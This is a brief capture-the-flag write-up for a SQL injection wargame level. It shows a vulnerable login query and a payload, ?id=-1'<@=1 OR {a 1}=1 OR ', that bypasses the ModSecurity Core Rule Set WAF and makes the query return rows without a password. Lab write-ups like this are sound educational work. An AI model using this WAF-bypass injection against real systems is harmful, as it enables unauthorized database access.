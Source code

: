 ```yaml
---
custom_edit_url: null
sidebar_position: 33
tags: [SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a45d4dce-407b-416d-8625-dd9680076748)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cthulhu WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181) Github issue .

![2](https://github.com/Kunull/Write-ups/assets/110326359/7c4e4729-0eb9-45dd-b350-97556d0cd332)

If we provide the following URI parameter:

```
?id=-1'<@=1 OR {a 1}=1 OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_cthulhu WHERE id='-1'<@=1 OR {a 1}=1 OR '' AND pw=''
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/64228788-fb14-4d48-a302-192e1d8a2041)
